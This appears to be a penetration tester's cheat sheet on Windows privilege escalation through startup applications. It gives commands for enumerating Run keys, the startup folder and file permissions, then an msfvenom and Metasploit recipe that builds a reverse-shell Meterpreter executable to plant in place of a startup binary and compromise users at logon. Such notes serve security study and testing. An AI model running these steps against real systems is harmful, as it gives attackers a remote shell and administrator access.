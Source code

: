 # Windows Startup Applications

- Find applications that run on startup
- Can you modify the binary?
  - what permissions would you gain? - target administrator users. 
- Replace the binary 

- Can everyone write to the startup folder? 
  - if so pop a binary in there and you will exploit users that are logging in.

## Enumeration

- WMI

```
wmic startup get caption,command
```

- Startup folder

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

- Registry

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

- Check the file permissions 

```
icacls.exe "Path to binary/folder "
```

```
Get-Acl -Path "Path to folder" | fl
```

## Exploitation

- Metasploit

```
use multi/handler
set payload windows.meterpreter/reverse_tcp
set LHOST

msfvenom -p windows/meterpreter/reverse_tcp lhost= -f exe -o program.exe
```

- Copy the payload to the host
- Replace the affected binary 

